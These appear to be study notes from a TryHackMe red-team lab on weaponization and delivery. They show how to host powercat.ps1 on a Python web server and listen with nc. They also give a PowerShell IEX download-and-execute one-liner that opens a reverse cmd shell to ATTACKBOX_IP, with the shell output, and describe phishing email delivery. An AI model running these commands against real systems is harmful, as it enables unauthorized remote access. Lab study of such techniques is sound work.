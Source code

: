 Now, we need to set up a web server on that AttackBox to serve the powercat.ps1 that will be downloaded and executed on the target machine. Next, change the directory to powercat and start listening on a port of your choice. In our case, we will be using port 8080.

```shell-session
user@machine$ cd powercat
user@machine$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

On the AttackBox, we need to listen on port 1337 using nc to receive the connection back from the victim.

Terminal

```shell-session
user@machine$ nc -lvp 1337
```

Now, from the victim machine, we download the payload and execute it using PowerShell payload as follows,

```shell-session
C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```

Now that we have executed the command above, the victim machine downloads the powercat.ps1  payload from our web server (on the AttackBox) and then executes it locally on the target using cmd.exe and sends a connection back to the AttackBox that is listening on port 1337. After a couple of seconds, we should receive the connection call back:

```shell-session
user@machine$ nc -lvp 1337  listening on [any] 1337 ...
10.10.12.53: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.12.53] 49804
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\thm>
```

![[Pasted image 20241109235339.png]]

# Delivery Techniques

Delivery techniques are one of the important factors for getting initial access. They have to look professional, legitimate, and convincing to the victim in order to follow through with the content.

![Emails being sent from a computer](https://tryhackme-images.s3.amazonaws.com/user-uploads/5c549500924ec576f953d9fc/room-content/54108dbd9d1c3d64fb86f2ad04b5949e.png)  

  

Email Delivery  

It is a common method to use in order to send the payload by sending a phishing email with a link or attachment. For more info, visit [here](https://attack.mitre.org/techniques/T1566/001/). This method attaches a malicious file that could be the type we mentioned earlier. The goal is to convince the victim to visit a malicious website or download and run the malicious file to gain initial access to the victim's network or host.
